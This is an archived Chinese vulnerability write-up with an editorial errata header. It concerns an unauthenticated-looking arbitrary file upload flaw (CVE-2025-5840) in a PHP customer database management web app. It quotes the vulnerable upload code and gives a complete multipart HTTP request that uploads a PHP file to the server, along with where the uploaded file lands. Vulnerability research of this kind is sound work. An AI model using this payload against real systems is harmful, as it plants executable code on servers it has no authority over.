


# 国外某数据库管理系统存在前台任意文件上传漏洞 (CVE-2025-5840)

> 编号角色校订（2026-10-04）：按技术主体及多编号分节核对主讨论对象、链成员与引用，当前编号字段据此更新；旧编号原值及 `identifier_status` 均保留，变更前字段保存在 `previous_*`。后文原有角色待核项按当前字段阅读，版本、配置及证据缺口未因此自动解决；原作者的复现声明不升级为维护者复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Customer Database Management System5840
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：请求带session且referer超级管理员页，前台未认证需核conn.php鉴权；缺厂商/版本/原始CVE出处和修复，源码公众号回复不算附件
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 标题国外某数据库管理系统易误认DBMS，实际客户订单Web应用
2. 文字upload_file与源码uploaded_file不一致
3. 请求带session且referer超级管理员页，前台未认证需核conn.php鉴权
4. 源码另有uploaded_file_cancelled同问题值得关联
5. /cdm/files与/files路径需明确
6. 缺厂商/版本/原始CVE出处和修复，源码公众号回复不算附件
7. 写php文件并更新order可能改业务需清理

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

原创 XingYue404  星悦安全   2025-06-12 07:10  
  
  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**客户数据库管理系统 （CDMS）** 是一种功能强大且必不可少的工具，旨在 **********以集中和结构化的方式存储、管理和组织客户**或**客户信息**。该系统使企业能够有效地处理客户数据，包括联系方式、交易历史、通信日志、偏好和其他相关记录.  
  
## 0x01 漏洞研究&复现  
  
位于   
/user_update_customer_order.php 中通过POST传入 upload_file 参数即可上传任意文件，且未加过滤，导致漏洞产生.  
  
```
<?php
include 'conn.php';
session_start();
$response = array();

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $orderId = mysqli_real_escape_string($conn, $_POST['order_id']);
    $latestEngagementDate = mysqli_real_escape_string($conn, $_POST['latest_engagement_date']);
    $remarks = mysqli_real_escape_string($conn, $_POST['remarks']);
    $orderStatus = mysqli_real_escape_string($conn, $_POST['order_status']);

    $uploadedFile = '';
    $uploadedFileCancelled = '';

    if (!empty($_FILES['uploaded_file']['name'])) {
        $targetDirectory = "files/";
        $uploadedFile = basename($_FILES['uploaded_file']['name']);
        $targetFile = $targetDirectory . $uploadedFile;

        if (!move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $targetFile)) {
            $response['status'] = 'error';
            $response['message'] = 'Error uploading file.';
            echo json_encode($response);
            exit();
        }
    }

    if (!empty($_FILES['uploaded_file_cancelled']['name'])) {
        $targetDirectory = "files/";
        $uploadedFileCancelled = basename($_FILES['uploaded_file_cancelled']['name']);
        $targetFileCancelled = $targetDirectory . $uploadedFileCancelled;

        if (!move_uploaded_file($_FILES['uploaded_file_cancelled']['tmp_name'], $targetFileCancelled)) {
            $response['status'] = 'error';
            $response['message'] = 'Error uploading proof of cancellation.';
            echo json_encode($response);
            exit();
        }
    }

```  
  
  
Payload:  
  
  
```
POST /cdm/user_update_customer_order.php HTTP/1.1
Host: localhost
Content-Length: 322
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryF7eA6RTdWc8vj9A2
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdm/superadmin_sales_manager.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n0ca46ek2kkbqokdojeoidfib0
Connection: close

------WebKitFormBoundaryF7eA6RTdWc8vj9A2
Content-Disposition: form-data; name="order_id"

123
------WebKitFormBoundaryF7eA6RTdWc8vj9A2
Content-Disposition: form-data; name="uploaded_file"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
------WebKitFormBoundaryF7eA6RTdWc8vj9A2--

```  
  
  
  
  
  
文件上传在 /  
files/xxx.php  
  
  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，交易所**  
  
**数据库源码关注公众号发送 250612 下载!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
